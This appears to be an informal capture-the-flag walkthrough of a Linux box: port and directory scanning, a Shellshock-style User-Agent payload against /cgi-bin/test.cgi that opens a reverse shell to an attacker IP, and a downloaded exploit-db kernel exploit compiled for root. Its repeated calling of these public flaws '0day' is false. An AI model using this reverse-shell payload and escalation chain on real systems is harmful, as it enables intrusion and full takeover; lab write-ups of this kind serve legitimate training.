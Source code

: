 ## # nmap scan : 

22 : ssh
80 : http

## # directory FUZZ  :

/admin
/uploads
/cgi-bin
/secret

with more fuzzing : 
/cgi-bin/test.cgi

its a 0day to this file , get shell with this command : 

``curl -H “user-agent: () { :; }; echo; echo; /bin/bash -c ‘sh -i >& /dev/tcp/10.9.6.83/4444 0>&1’ “


## # privelege escalation : 

kerbel exploit : another 0day

https://www.exploit-db.com/exploits/37292

cd /tmp : to get the permission to download the exploit

download the exploit in our machine , and on a python server at any port

use wget to download the file in the target

complite using ``gcc 
find a error , dont find cc1 , taht is the responsable to convert C to assembly .

by modifiying the PATH to the normal PATH : 

``export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

chmod +x exploit
./exploit

and boom , rooooooooooooot